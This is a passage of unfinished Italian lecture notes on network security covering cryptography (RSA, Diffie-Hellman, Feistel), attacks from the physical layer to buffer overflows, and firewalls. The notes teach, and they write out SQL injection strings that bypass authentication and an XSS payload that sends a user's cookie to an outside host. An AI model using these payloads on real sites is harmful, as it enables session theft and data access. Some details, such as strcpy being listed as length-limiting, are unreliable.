				 \end{itemize}
			 	Una volta generato K possiamo utilizzare quella chiave per cifrare, decifrare e autenticare tutti i messaggi tra A e B. In questo modo abbiamo vantaggi dal punto di vista computazionale.
		\subsection{Teoria: principi di crittografia}
			\subsubsection{RSA}
			\begin{itemize}
				\item Dati p,q primi con $n = pq$
				\item Dato $m<n$
				\item se e,d sono inversi moltiplicativi mod $\phi(n)$ ovvero $ed = 1mod\phi(n)$ allora:
			\end{itemize}
		
			INSERIRE FORMULA EULERO\\
			
			\begin{itemize}
				\item Dato $m^{e}=c$ è computazionalmente oneroso ricavare m, per numeri grandi impossibile. \textbf{Si può cifrare esponenziando per e e decifrare esponenziando ancora per d}
				\item dunque la coppia e,n è la chiave pubblica mentre la coppia d,n è la chiave privata.
				\item per valori di e,n non piccoli (maggiori di 1kbit) non esistono algoritmi che permettano:
				\begin{itemize}
					\item dati e,n ricavare d
					\item dato $m^{e} $ ricavare m
				\end{itemize}
			\end{itemize}	
		
			La sicurezza di RSA si basa tutta sull'impossibilità di derivare $\phi(n)$ o d da e,n. Entrambi questi problemi hanno complessità equivalente a quella di fattorizzare n nei suoi fattori primi. Si è riuscito a fattorizzare numeri da 332 a 663 bit (con un costo in tempo di mesi), pertanto si ritiene sufficiente una grandezza di 1024 bit per le chiavi. \\
			\textbf{La sicurezza di RSA dipende tutta dallo stato dell'arte nel campo degli algoritmi di fattorizzazione e nel campo della potenza computazionale.}\\
			Un attacco possibile è \textbf{timing attack} che viene portato in atto nella fase di esponenziazione, ovvero nella fase di decriptazione eseguita tramite la chiave privata. Si basano sul fatto che le operazioni in hardware hanno costi differenti se il bit usato per l'esponenziazione è 0 o 1. \textbf{Possiamo dunque risalire alle chaive privata solo osservando i tempi di esecuzione della CPU per le operazioni di decodifica}. L'attacco è laborioso ma proveniente da una direzione inattesa. Per ovviare a ciò le implementazioni di RSA introducono dei ritardi casuali nell'esponenziazione per rendere impredicibili i tempi di esecuzione.
			Altri algoritmi che utilizzano problemi computazionalmente intrattabili:
			\begin{itemize}
				\item Diffie-Hellman genera una chiave segreta condivisa a partire da due chiavi pubbliche senza bisogno di scambiare alcun segreto
				\item ElGamal schema basato su logaritmi discreti
				\item DSA schema a firma digitale basato su logaritmi discreti.
			\end{itemize}
			\subsubsection{Diffie Hellman}
				Si basa sull'intrattabilità del logaritmo discreto.\\
				Dato un numero primo p si definisce radice primitiva di p un numero $\alpha$ per cui vale:
				$$\alpha modp \neq \alpha^{2} modp \neq \alpha^{3} modp \neq ... \neq \alpha^{i} modp  $$
				$$i<p $$
				Nello scambio entrambi A e B posseggono due parametri noti p,$\alpha$ ciascuno genera un numero casuale $X_{a}$ e $A_{b}$
				\begin{enumerate}
					\item A invia a B $Y_{a}= \alpha^{X_{a}} modp$
					\item B riceve $Y_{a}$ ed invia ad A $Y_{b}=\alpha^{X_{b}}modp$
					\item A calcola $K_{a} = Y_{b}^{X_{a}}modp = (\alpha^{X_{b}})X^{a}modp= \alpha^{X_{b}*X{a}}$
					\item B calcola $K_{b} = Y_{a}^{X_{b}}modp = (\alpha^{X_{a}})X^{b}modp= \alpha^{X_{a}*X{b}}$
					\item Risulta $K_{b} = K_{a}$ dunque A e B si sono scambiati una chiave segreta \textbf{senza avere nessuna credenziale comune}
 				\end{enumerate}	
 				\textbf{Un attaccante che vede passare solo $Y_{a}$ e $Y_{b}$ non è in grado di calcolare il logaritmo discreto quindi non può ricavare la chiave}\\
 				Diffie Hellman non è sicuro contro attacchi \textbf{man in the middle}:
 				\begin{itemize}
 					\item D genera $X{d1}$ e $X{d2}$ e le chiavi pubbliche corrispondenti $Y{d1}$ $Y{d2}$
 					\item A invia $Y{a}$ a B
 					\item D intercetta il messaggio e trasmette invece $Y{d1}$ a B
 					\item B riceve $Y{d1}$ e calcola $K_{b}= Y_{d1}^{X_{b}}modp$
 					\item B invia $Y{b}$ ad A
 					\item D intercetta $Y{b}$ e invia invece $Y{d2}$ ad A
 					\item A calcola $K_{a}= Y_{d2}^{X_{a}}modp$
 				\end{itemize}
 			
 				INSERIRE diffie\\
 			
 			\subsubsection{Algoritmi a chiave simmetrica: One time pad}
 				\begin{enumerate}
 					\item Dato un testo in chiaro m di n bit si scegli una chiave k generata attraverso un generatore perfetto di numeri casuali
 					\item La cifratura è $c=m\oplus k$
	 				\item ad ogni trasmissione si deve cambiare k
 				\end{enumerate}
 				Con questo algoritmo si scorrela completamente c da m, con il risultato che è \textbf{impossibile effettuare crittanalisi}. Di contro abbiamo che dobbiamo trasportare una chiave k su canale sicuro (della stessa lunghezza di n). In linea teorica questo algoritmo garantisce la \textbf{sicurezza più elevata}, ma nella pratica è \textbf{difficile da utilizzare}
 			
 			\subsubsection{Algoritmi a chiave simmetrica: Cifratura di Feitsel}
 				La cifratura di Feitsel è un algoritmo di sostituzione ideale che mappa un messaggio in chiaro di 2 bit in un messaggio cifrato di 2 bit \textbf{utilizzando una mappa statica}.\\
 			
 				INSERIRE static\\
 			
 				Se il messaggio è lungo 2 bit e la mappa $2^{2}$ righe, \textbf{l'attaccante può tentare solo attacchi di forza bruta}, non esiste correlazione statica tra testo in chiaro e testo cifrato. Quando il messaggio è più lungo si cifrano blocchi di 2 bit per volta.\\
 				Per risultare sicuro i blocchi devono essere di grandi dimensioni, ma in tal caso \textbf{la mappa diventa molto grande} ($n=64 \rightarrow$ $64x2^{64} = 2^{70} bit$). Procedimento:
 				\begin{enumerate}
 					\item Dalla chiave K si generano una serie di sottochiavi $K_{i}$ con una funzione generatrice
 					\item Si eseguono una serie di fasi di cifratura che hanno come parametro $K_{i}$ e il risultato della fase precedente.
 					\item Tutti gli algoritmi a blocchi come AES utilizzano questo schema di cifratura
 				\end{enumerate}
			
				INSERIRE feit\\
			
			\subsubsection{Altri algoritmi : DA FINIRE}
			
		\subsection{Esempio: organizzazione rete certificati}
			La rete è composta da:
			\begin{itemize}
				\item La vostra rete è composta da
				\item Una rete di computer fissi per i vostri utenti
				\item Un server per applicativi web necessari ai vostri utenti
				\item Un server per la posta elettronica
				\item Dei possibili utenti remoti, roadwarrior.
			\end{itemize}
	
			INSERIRE rete\\
		
			I \textbf{servizi} che la rete offre sono:
			\begin{itemize}
				\item non sia possibile collegarsi alla rete interna se non utilizzando i client fissi
				della rete,
				\item che ad ogni client della rete possa effetturare l’accesso solo personale
				autorizzato
				\item che i servizi del vostro webserver siano accessibili solo dai terminali della
				rete
				\item che la posta elettronica sia certificata
				\item che gli utenti possano inviare e ricevere posta elettronica in modo sicuro
				\item che tutto quello che può fare un utente dal proprio terminale interno lo
				possa fare anche un utente roadwarrior
			\end{itemize} 
			Abbiamo bisogno di una \textbf{CA}, ovvero una macchina il più possibile isolata dalla rete, non accessibile
			dall’esterno, non accessibile direttamente dagli utenti.
			Su questa macchina generate un certificato master, protetto da password
			che utilizzerete per generare tutti i certificati dei servizi. Possibilmente, in
			un luogo fisicamente inaccessibile (cassaforte?) dovrete tenere un
			backup del certificato.
			Se la vostra rete è contenuta potete usare un programma come tinyca
			per creare le chiavi degli utenti e dei servizi, che poi distribuite nei singoli
			terminali, altrimenti avrete bisogno di un’interfaccia web accessibile dagli
			utenti.
			Le CRL della CA devono essere pubblicate in un luogo liberamente
			accessibile a cadenza regolare.
			
	\section{Attacchi}
		\subsection{Attacchi al mezzo fisico}
			\begin{itemize}
				\item Dos: interruzione di collegamento o jamming
				\item attacchi di wiretapping 
				\item sniffer hardware e sniffer in reti broadcast
			\end{itemize}
			\subsubsection{Jamming}
				Il jamming \textbf{è l'atto di disturbare volutamente le comunicazioni radio (wireless)} facendo in modo che ne diminuisca il rapporto segnale/rumore, indice di chiarezza del segnale, tipicamente trasmettendo sulla stessa frequenza e con la stessa modulazione del segnale che si vuole disturbare. \\
				Il jamming sul mezzo fisico si può fare solo in caso in cui il mezzo fisico lo permetta, come nel caso di reti wireless o reti wired con cavi non schermati. Anche se il jamming è difficile basta far fallire la ricezione di un bit per invalidare il checksum e far scartare un pacchetto.
		\subsection{Attacchi a livello di collegamento}
			\begin{itemize}
				\item DoS: flood di pacchetti,generazione di collisioni
				\item spoofing indirizzi MAC
				\item ARP-Spoofing
			\end{itemize}
			\subsubsection{Dos al livello di collegamento}
				Un attacco di flood può essere mirato alla saturazione della banda. Se il mezzo è condiviso si possono non rispettare i tempi di timeout e creare numerose collisioni, o in alternativa mantenere il canale sempre occupato. Si può mascherare il flood inviando pacchetti con indirizzo mittente modificato.
			\subsubsection{ARP-Spoofing}
				L'ARP è un protocollo di IPv4 utilizzato per mappare indirizzi IP a indirizzi MAC in una rete locale
				Introduciamo in primo luogo il protocollo ARP (\textbf{Address Resolution Protocol}):
				\begin{enumerate}
					\item la macchina 192.168.2.51 vuole raggiungere l'indirizzo 192.168.2.52 nella stessa sottorete, per farlo deve inviare un frame all'indirizzo MAC corrispondente
					\item \textbf{Se non conosce tale MAC} allora invia una richiesta ARP in broadcast chiedendo che la macchina 192.168.2.52 risponda notificando il suo MAC address
					\item Tale macchian risponde con una ARP-reply specificando il suo indirizzo MAC
				\end{enumerate}
				
				INSERIRE arp\\
				
				INSERIRE algoarp\\
				
				Lo scopo di un \textbf{attacco ARP-Spoofing} è intercettare il traffico che passa tra due macchine su una rete con switch. L'attaccante fa parte della rete ma non si trova nel path tra le due macchine vittime.	
				\begin{enumerate}
					\item Eve manda messaggi ARP-Reply diretti all'indirizzo MAC di Alice, dichiarando che l'IP di Bob corrispondente al suo indirizzo MAC.
					\item Eve manda messagi ARP-Reply anche all'indirizzo MAC di Bob, dichiarando che l'IP di Alice corrisponde al suo indirizzo MAC
					\item Il traffico TCP di Bob viene inviato ad Eve che può leggerlo, eventualmente modificarlo, e inviarlo ad Alice. Alice penserà che è stato Bob ad inviarli quel traffico TCP. 
				\end{enumerate}
		\subsection{Attacchi al livello di rete}
			\begin{itemize}
				\item DoS: flood di pacchetti, smurf
				\item covert channels, fragmentation attacks, source routing
				\item spoofing indirizzo IP
			\end{itemize}
			\subsubsection{Fragmentation attack}
				Il protocollo IP permette di spezzare un pacchetto in più frammenti nel caso questo debba attraversare sottoreti che hanno MTU minore della lunghezza del pacchetto stesso. \\
				
				INSERIRE iphead\\
				
				In generale gli attacchi a frammentazione hanno lo scopo di superare i controlli fatti sugli header dai firewall stateless ( al giorno d'oggi i firewall sono tutti statefull).
				
				INSERIRE tcphead, frag, frag2\\
				
				I firewall normalmente sono configurati per bloccare i tentativi di connessione dall'esterno della rete verso porte maggiori di 1024 dei server. Per fare ciò scartano i pacchetti TCP con il flag SYN = 1 nell'header. Tuttavia \textbf{devono lasciare passare pacchetti che sono rivolti verso porte alte ma che fanno parte di una connessione aperta dall'interno della rete all'esterno}.\\
				Un pacchetto IP è un wrapper di un pacchetto TCP, dunque la possibilità di frammentare in piccole parti un pacchetto IP introduce una vulnerabilità per l'header TCP che dunque può essere spezzato, permettendo di superare il controllo del flag SYN.\\
				Un \textbf{Tiny fragmentation attack} sfrutta questa possibilità:
				\begin{itemize}
					\item Si spezza il pacchetto IP includendo nel primo frammento tutto l'header IP e una prima parte dell'header TCP (sequence number). Il secondo frammento inizia dal campo di ACK fino alla fine del payload.
					\item Il primo frammento viene passato, anche se indirizzato a una porta maggiore di 1024, dal firewall poichè non contiene il flag TCP. Il secondo non viene interpretato come pacchetto TCP poichè non ha un header TCP ben formato e dunque viene anch'esso fatto passare.
					\item Quando il pacchetto è riassemblato ha un header TCP valido con SYN = 1 diretto ad una porta maggiore di 1024 (\textbf{Ha già superato il firewall}).
				\end{itemize}
				Alcuni firewall aspettano di ricomporre il pacchetto prima di decidere se filtrarlo o meno, contravvenendo però allo standard vigente.\\
				Un altro attacco che sfrutta questa vulnerabilità di IP è il \textbf{Overlapping fragments attack}: 
				\begin{itemize}
					\item Il primo frammento viene indirizzato ad una porta >1024 ma ha il campo SYN=0 dunque viene fatto passare.
					\item Il secondo frammento non contiene un header TCP valido quindi non viene filtrato ma va a riscrivere una parte dell'header TCP: in particolare cambia il campo SYN =1.
					\item i due pacchetti vengono ricomposti.
				\end{itemize}
			\subsubsection{Attacchi al DNS}
				Il DNS (Domain Name System) risolve indirizzi alfanumerici in indirizzi IP. Per ogni dominio di rete esiste un server DNS che può fare tale traduzione in modo \textit{autoritative}. L'indirizzo del server DNS \textit{autoritative} non è noto per ogni dominio a priori, dunque ogni Host è configurato per interagire in primo luogo con un server DNS \textbf{locale}. Sarà dunque il DNS locale a contattare dei \textbf{root server} per ottenere gli indirizzi dei server DNS validi per tradurre l'indirizzo alfanumerico di un dato dominio. Una volta realizzata la traduzione (associazione) il DNS locale la tiene in \textbf{cache} per un certo periodo.\\
				In generale un \textbf{attacco al DNS} serve a far credere che l'IP corrispondente ad un dato dominio, è un IP diverso da quello originale. Questa possibilità trova terreno fertile nel fatto che il protocollo DNS non utilizza cifratura per i suoi pacchetti, introducendo la possibilità di falsificarne le risposte. Un attacco di questo tipo può essere utilizzato per:
				\begin{itemize}
					\item Phishing
					\item Furto di credenziali
					\item attacchi su Home banking 
					\item redirezione di connessione e MITM in generale
				\end{itemize} 
				Questi attacchi possono essere realizzati:
				\begin{itemize}
					\item Nella rete locale
					\item Nella richiesta da/verso il server DNS locale
					\item Nella richiesta da/verso DNS authoritative
				\end{itemize}
				\textbf{Al livello II} si possono fare attacchi MITM (arp-sppoofing per reti ethernet, attacchi su chiavi WEP per wifi). \textbf{Lo stesso principio può essere utilizzato} per:
				\begin{itemize}
					\item \textbf{DHCP}: assegnando ad un nodo della rete  un nuovo indirizzo del server DHCP controllato dall'attaccante
					\item DNS responses: modificando i pacchetti che arrivano dal serve DNS. 				
				\end{itemize} 
				Per un attacco DNS responses \textbf{lo scopo dell'attaccante è quello di riuscire ad inquinare la cache del server DNS locale, ovvero di rispondere al posto del server DNS remoto}. Se l'attaccante si trova \textbf{nel path tra il server DNS e l'host } l'attacco è banale. Altrimenti l'attaccante deve rispondere prima del server DNS remoto. \\
				Prima di vedere i dettagli sul funzionamento di questo tipo di attacco (\textbf{al livello III}) ricordiamo quali sono i campi "interessanti" di un pacchetto DNS:
				\begin{itemize}
					\item La porta UDP di origine e destinazione
					\item l'IP  di origine e destinazione
					\item L'ID del pacchetto, ovvero un numero scelto a caso da chi invia la richiesta che deve essere replicato nella risposta.	
				\end{itemize}
				Per realizzare l'attacco, l'attaccante deve rispondere con un \textbf{pacchetto DNS forgiato} con le caratteristiche giuste:
				\begin{enumerate}
					\item L'indirizzo IP sorgente che è quello del server remoto (\textbf{prevedibile})
					\item La porta UDP sorgente del server remoto (53)
					\item L'indirizzo IP di destinazione (\textbf{prevedibile})
					\item La porta UDP di destinazione ovvero quella usata dal server DNS locale per inviare la richiesta 16 bit(\textbf{non prevedibile?})
					\item L'ID del pacchetto di richiesta 16 bit(\textbf{non prevedibile!})
				\end{enumerate}
				Abbiamo dunque due campi di 16 bit che potrebbero essere imprevedibili per un attaccante. Le possibilità sono dunque:
				$$32bit \rightarrow 2^{32} possibilità$$
				L'attaccante ammesso che sappia il momento esatto per rispondere, deve inviare prima del server remoto mediamente 2 miliardi di pacchetti. Se ogni pacchetto è pesante 80 byte l'attaccante deve mandare 160GB di traffico prima che il server remoto possa rispondere.	\\
				Tuttavia \textbf{alcuni server DNS non utilizzano una porta casuale per inviare le richieste} ma fa un BIND all'avvio per scegliere la porta e continua ad usarla. Conoscendo tale porta abbiamo comunque $6500*80 = 5MB$ da inviare in poche decine di millisecondi.\\
				Possiamo provare a \textbf{restringere le ipotesi}: 
				\begin{itemize}
					\item Immaginiamo che E possa far iniziare la richiesta al server locale di A (stando dentro la rete oppure nel caso in cui il DNS locale di A accetti richieste dall'esterno).
					\item In questo modo l'attaccante sa quando avverrà la richiesta e quindi anche la finestra utile per rispondere al posto del DNS authoritative.
					\begin{enumerate}
						\item Eve invia ad Alice una richiesta per il dominio www.example.com
						\item Alice invia la richiesta al server DNS di www.example.com (B)
						\item Eve prova a rispondere prima di B con un flood di n risposte fasulle
					\end{enumerate}
				\end{itemize}
				In questo modo ha probabilità $n/2^{16}$ di riuscire, ammesso che il server DNS riesca ad elaborare tutte le richieste forgiate.\\
				
				INSERIRE PARADOSSO BIRTHDAY\\
				
				\textbf{In conclusione} possiamo dire che:
				\begin{itemize}
					\item Fare il poisoning di un server DNS è possibile ma \textbf{molto difficile}
					\item Sotto opportune ipotesi l'attacco è realizzabile con mezzi a disposizione di chiunque.
					\item L'attacco è più facile se il server authoritative (B) è sotto attacco DoS e dunque non risponde prontamente.
					\item Per evitare che l'attacco sia applicabile è importante scegliere bene gli applicativi che si usano, avendo la certezza, ad esempio, che utilizzino porte casuali.
				\end{itemize}
		\subsection{Attacchi al livello di trasporto o superiori}
			\begin{itemize}
				\item\textbf{ Attacchi a livello di trasporto}:
				\begin{itemize}
					\item DoS: Syn flood, TCP reset guess
					\item SYN spoofing
				\end{itemize}
				\item \textbf{Attacchi al \textit{middleware}}
				\begin{itemize}
					\item cross site splitting
					\item SQL injection, problemi di programmazione di perl,php,python
				\end{itemize}
				\item \textbf{attacchi ai protocolli superiori}
				\begin{itemize}
					\item problemi di sicurezza di tutti i protocolli che non utilizzano crittografia (HTTP, TELNET, POP3)
					\item DNS spoofing
				\end{itemize}
			\end{itemize}	
			\subsubsection{Attacchi livello IV: Syn flood}
				Si basa sul funzionamento del \textbf{three way handshake}: ogni qualvolta un server riceve un pacchetto con SYN=1 alloca delle risorse di memoria per gestire la connessione che sta per essere creata, quindi fa partire un pacchetto di risposta con SYN=1 e ACK=1 e aspetta per un timeout la risposta dal client e aprire la connessione. \textbf{In quel momento il server ha una connessione half open}. L'attaccante invia un gran numero di pacchetti con SYN=1 da indirizzi IP falsi, prima o poi \textbf{la memoria del server si saturerà e il server comincerà a scartare i pacchetti} (DoS). In questo modo si impedisce ad altre macchine di accedere al servizio.\\
				Un possibile rimedio ad un attacco di questo tipo è l'utilizzo dei \textbf{Syn cookies}:
				\begin{itemize}
					\item quando si invia un pacchetto SYN=1 e ACK=1 (risposta del server al primo syn di richiesta) non si sceglie un numero casuale ma un numero che è una codifica di informazioni riguardanti la connessione. \textbf{In questo modo non viene allocata nessuna memoria.}
					\item Una volta ricevuto il terzo messaggio, esso contiene l'ACK inviato da cui si riestraggono le informazioni codificate. Si apre dunque la connessione
					\item Il numero di sequenza deve essere comunque \textbf{impredicibile}, altrimenti si rischiano attacchi di \textbf{syn spoofing}. Abbiamo bisogno di uno stato interno (un contatore) dello stack 
				\end{itemize}
			\subsubsection{Attacchi livello IV: TCP reset Guess}
				Questo attacco si basa sulla possibilità di poter interrompere una connessione TCP inviando un pacchetto con campo RST=1. Poichè un pacchetto del genere venga accettato il pacchetto deve contenere i valori corretti di:
				\begin{itemize}
					\item Indirizzo IP del mittente
					\item Porta TCP mittente e destinazione
					\item Numero di sequenza corretto all'interno del flusso
				\end{itemize}
				Un attaccante che volesse interrompere una connessione TCP dovrebbe conoscere gli indirizzi IP, può indovinare le porte (una è nota l'altra è predicibile), \textbf{tuttavia non può conoscere il numero di sequenza corretto: deve provare \textit{brute force}.}\\
				Il numero di sequenza è un \textbf{campo a 32 bit} quindi $2^{32}$ numeri da tentare (con un modem a 32k ci vogliono 284 giorni). Tuttavia il protocollo TCP impone che per essere ricevuto un pacchetto di reset debba \textbf{semplicemente cascare nella finestra di numeri di sequenza che la macchina mantiene attivi}. La finestra può essere larga fino a $2^{16} bit$. Non abbiamo bisogno di tentare tutti i numeri di sequenza ma ci basta provare numeri di sequenza non più distanti di $2^{16}$.
				$$2^{32}/2^{16} = 2^{16} = 65,535 cifre \rightarrow 6 minuti$$
				
				INSERIRE tempi\\
				
		\subsection{Attacchi al middleware}
			Per \textit{middleware} si intende tutto quel codice che sta nel mezzo tra la richiesta che fa un browser e la presentazione di una pagina HTML di risposta. CGI scritti in qualsiasi linguaggio, script PHP, Python, Ruby, sono tutti esempi di middleware.\\
			La maggior parte degli \textbf{attacchi} hanno a che vedere con la \textbf{data validation}, ovvero tutte quelle tecniche che un programmatore dovrebbe utilizzare per evitare che un utente possa inserire nelle chiamate HTTP dati estranei a quelli desiderati. 
			\subsubsection{SQL Injection}
				Applicabile nel contesto di script PHP ecc viene utilizzato per eseguire query su database. \\
				
				INSERIRE sqltable \\
				
				\begin{itemize}
					\item SELECT secret FROM userdb WHERE user =’$user’ AND password =’$password’\\
					Se $user=Alice e $password=123 la query diventa:\\
					SELECT secret FROM userdb WHERE user=’Alice’ AND password =’123’
					\item Se si utilizzano
					user=Alice
					password=’\\
					la query diventa:\\
					SELECT secret FROM userdb WHERE user =’Alice’ AND password =”’\\
					MySQL trova un ' di troppo e segnala un errore perrchè non riesce ad interpretare il resto della stringa. \textbf{questo errore può essere sfruttato}.
					\item Se si utilizzano
					user=Alice
					password=’ OR user=’Alice\\
					la query diventa:\\ SELECT secret FROM userdb WHERE user =’Alice’
					AND password =” OR user=’Alice’\\
					La stringa è corretta e significa: \textbf{restituisci dalla tabella la colonna per cui
					(user=Alice e password=”) oppure user=Alice.\\
					Il risultato è che la prima parte della query fallisce ma la seconda parte
					restituisce il contenuto della colonna secret senza controllare la password}
				\end{itemize}
				Nell'esempio precedente era necessario conoscere la composizione di tutta la query, \textbf{che non è sempre nota}:
				\begin{itemize}
					\item utilizzando il commento - è possbile escludere delle parti della query di cui non si conosce il contenuto\\
					user=Alice';-\\
					la query diventa:\\
					select secret from userdb where user =’Alice’; – and password =”
					\item tutta la parte dopo - non viene considerata.
				\end{itemize}
				Se ci sono altre tabelle nel DB possiamo utilizzare query piu complicate per accedere anche a queste. Sapendo l'esistenza di una tabella come questa:\\
				
				INSERIRE table\\
				
				\begin{itemize}
					\item utilizzando il comando UNION si possono fare query su tabelle diverse:\\
					user=’ union select value from houses where owner=Alice; – \\
					la query diventa:\\
					select secret from userdb where user =” union select value from houses
					where owner=Alice; –
					\item \textbf{la prima parte della query fallisce ma la seconda va a fare una richiesta su una seconda tabella, che restituisce informazioni}
				\end{itemize}
				
				Come posso sapere che \textbf{ci sono altre tabelle?}. Facendo le query giuste:\\
				
				INSERIRE query\\
				
				\textbf{Come possiamo impedire attacchi di SQL injection?} Le versioni più vecchie dei webserver non fanno nessun parsing sulle stringhe che si inseriscono nelle query. Oggi possiamo inserire controlli:
				\begin{itemize}
					\item lista caratteri vulnerabili
					\item Utilizzare query già preparate
				\end{itemize}
			
				INSERIRE vulnerable, prepared\\
				
			\subsubsection{Cross-site-scripting (XSS) stored }
				Un attacco XSS è basato sulla possibilità di \textbf{inserire del codice malizioso all'interno di pagine web esterne}, in modo tale che gli utenti che si collegano a tali pagine sono indotti ad eseguirlo.
				L'attacco può essere:
				\begin{itemize}
					\item \textbf{stored }: il codice persiste nella pagina web
					\item \textbf{reflected}: il codice viene visualizzato in una messaggio temporaneo di errore
				\end{itemize}	
				La conseguenza è che l'utente si collega ad una pagina web di cui si fida ma riceve del codice malevole che viene eseguito \textbf{in locale sul suo browser}. L'attaccante cercherà di inserire codice eseguibile all'interno del codice HTML.\\
				Ricordiamo il funzionamento dei cookies:
				\begin{itemize}
					\item HTML è \textit{stateless} ovvero non si conservano informazioni relative ad una connessione, ognuna di queste è scorrelata dalla precedente.
					\item Per evitare di reinserire utente e pass ad ogni connessione si utilizzano i cookies.
					\item è un'informazione che il server invia al browser dopo la prima connessione e che il browser reinvia al server ad ogni azione
					\item In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità dei cookies.
				\end{itemize}
				\textbf{Senza efficace validazione degli input} un attaccante può inserire degli script in javascript all'interno di uno script di echo (scritto per esempio in php) per \textbf{inviare il cookie dell'utente invece che al sito di destinazione ad un sito dell'attaccante}.\\
				<script>window.open(’http://google.it?
				cookie=’+document.cookie)</script>\\
				Una possibile \textbf{applicazione} potrebbe riguardare siti nei quali è possibile inserire commenti, se la validazione degli input non è fatta in modo oculato un attaccante può aggiungere codice javascript alla pagina.  \textbf{Tutte le persone che successivamente caricheranno quella pagina eseguiranno il codice lasciato nel commento.} Se il sito gestisce dei cookie è questi ultimi sono \textbf{reindirizzati verso l'attaccante, che li può utilizzare per accedere ai servizi con l'identità di un utente del sito di partenza}.
			\subsubsection{Cross-site-scripting (XSS) reflected: AJAX}
				Si posso fare attacchi simili (codice eseguito a seguito di un messaggio di errore) sfruttando:
				\begin{itemize}
					\item Link HTML all'interno delle mail
					\item errori prodotti da web server mail configurati (404)
				\end{itemize}
				Vediamo attacchi relativi alla tecnologia \textbf{AJAX} (Asynchronous JavaScript and XML). Si tratta di un \textbf{paradigma per la programmazione online} che lega un qualsiasi linguaggio di backend con lo scopo di realizzare un'interazione \textbf{asincrona} tra client e server. In questo modo la pagina reagisce in tempo reale alle azioni dell'utente (gmail, facebook). \textbf{Ajax non è una nuova tecnologia ma una composizione di tecnologie esistenti, con gli stessi problemi di quest'ultime, ma con una piu complessa gestione della sicurezza}. \\ 
				
				INSERIRE web, ajax \\
				
				I principali \textbf{pericoli} di AJAX sono:
				\begin{itemize}
					\item \textbf{Controlli client-side:} i controlli di sicurezza non devono essere implementati client-side (manipolabili da un'attaccante), ma server side ( esempio comntrollo di una password.) Il paradigma porta a demandare azioni all'applicazione client, ma deve essere utilizzato in modo cauto.
					\item \textbf{Cache client-side}: AJAX salva in locale molti dati relativi alla sessione, attenzione ai programmi che possono manipolare questi dati.
					\item \textbf{Mashups}: il web è fatto da integrazioni di prodotti dagli utenti e da terze parti, aggregate in un'unica pagina. Si aggregano dunque servizi che provengono da indirizzi IP differenti. \textbf{Diviene molto difficile tracciare tutte le sorgenti che contribuiscono ad una stessa pagina e filtrarle in modo da non avere applicazioni non previste. (XSS)}  
				\end{itemize}
		\subsection{Attacchi livello applicazione}
			\begin{itemize}
				\item \textbf{Attacchi da remoto}:
				\begin{itemize}
					\item \textbf{Buffer overflow}
					\item \textbf{format bug}				
				\end{itemize}
				\item \textbf{Attacco locale di privilege escalation}:
				\begin{itemize}
					\item \textbf{race condition}
					\item \textbf{problemi delle system call (system())}
				\end{itemize}
			\end{itemize}
			\subsubsection{Buffer overflow}
				I buffer overflow sono vulnerabilità causate da errori di programmazione nei linguaggi a basso livello e sono la causa maggiore di intrusione. Lo scopo è quello di sfruttare questa vulnerabilità in modo tale che l'attaccante possa eseguire del codice, comandi, che altrimenti non protrebbe eseguire sulla macchina remota.\\
				
				INSERIRE c\\
				
				La funzione \textbf{stampa()} viene allocata in uno spazio di indirizzi diverso dalla funzione \textbf{main()}. Quando stampa() è conclusa bisogna di nuovo fare una jump alla locazione di memoria dove si trova la funzione main().\\
				
				INSERIRE stack\\
				
				I passaggi di parametri avvengono mettendo le variabili in una zona comune, lo stack. In questo caso nello stack abbiamo:
				\begin{itemize}
					\item L'indirizzo di ritorno a cui stampa deve saltare per tornare a main()
					\item la variabile parola 
					\item la variabile testo della funzione stampa.
				\end{itemize}
				Si ha in questo caso un problema derivante dal mancato controllo sulla lunghezza del testo contenuto nella variabile parola (dovrebbe essere lunga meno di 10 char). Se il contenuto di tale variabile fosse maggiore dello spazio assegnato essa andrebbe a sovrascrivere zone adiacenti dello stack, provocando un \textbf{segmentation fault}.
				\begin{itemize}
					\item le variabili dello stack vengono scritte dal basso verso l'alto, ma all'interno della variabile dall'alto verso il basso.
					\item Si può sovrascrivere anche \textbf{l'indirizzo di ritorno.}
				\end{itemize}
			
				INSERIRE stack2\\
				
				L'attaccante può dunque:
				\begin{itemize}
					\item scrivere del codice eseguibile all'interno della variabile testo 
					\item far puntare l'indirizzo di ritorno a quel codice
					\item In questo modo quando stampa() finisce viene fatto un jump verso l'indirizzo di ritorno modificato.
					\item Come risultato si esegue del codice deciso dall'attaccante prima del crash del programma.
				\end{itemize}
				\textbf{Come proteggersi da buffer overflow ?}:
				\begin{itemize}
					\item Controllare sempre l'input che arriva dall'esterno (utente,file, variabili d'ambiente) 
					\item Utilizzare funzioni che limitano la lunghezza della scrittura (strncpy(),strcpy()).
					\item  Linux permette di rendere lo stack non eseguibile
					\item Esistono compilatori e debugger appositi per evitare BO.
				\end{itemize}
			
				MANCA BUONE PRATICHE (SPIEGATA A LEZIONE???)\\
				
			\subsubsection{Format Bug}
				Si basa su un errore di programmazione molto comune che ha sempre a che vedere con la formattazione delle stringhe.
				
				COMPLETARE
	\section{Firewall}
		Un firewall è un apparato software o hardware configurato per \textbf{ammettere, abbattere o veicolare (proxy firewall)} connessioni tra due aree di rete con differenti livelli di fiducia. Come \textbf{esempio} si può citare un \textbf{firewall perimetrale } posto su un getway per separare la rete locale(alto livello di fiduci) da internet (basso livello di fiducia).\\
		\textit{Possiamo dire che un firewall è un interfaccia configurabile tra due segmenti di rete con diversi livelli di fiducia}. Tale interfaccia deve essere configurata seguendo due principali \textbf{security poilicy}:
		\begin{itemize}
			\item \textbf{Least privilege}
			\item \textbf{Separation of Duties}
		\end{itemize}
		La configurazione di un firewall richiede profonda conoscenza dei protocolli di rete e di network security, un errore di configurazione \textbf{può renderne inutile l'utilizzo.}\\
		I firewall hanno avuto la seguente evoluzione nel tempo:
		\begin{enumerate}
			\item \textbf{Packet filter:} ogni pacchetto passa dentro il firewall e per ognuno di essi \textbf{si prende una decisione separata}. La scelta presa all'instante t non è condizionata dalla scelta presa all'istante precedente.
			\item \textbf{Stateful firewall}: si implementano nel firewall delle macchine a stati utilizzate per \textbf{prendere decisioni più articolate}. Ad esempio non accettare pacchetti TCP ACK se prima non si è ricevuto un pacchetto di SYN.
			\item \textbf{Application layer firewall}: Generalmente i firewall operano a livello di rete o, in casi specifici, di collegamento \textbf{poichè il formato dei pacchetti è già definito e non può essere modificato}. Gli application firewall \textbf{leggono le informazioni del payload del pacchetto} per decidere quali applicazioni possono passare. Hanno una maggiore complessità e dunque un maggiori requisiti in termini di risorse computazionali.
		\end{enumerate}
		\subsection{Posizionamento}
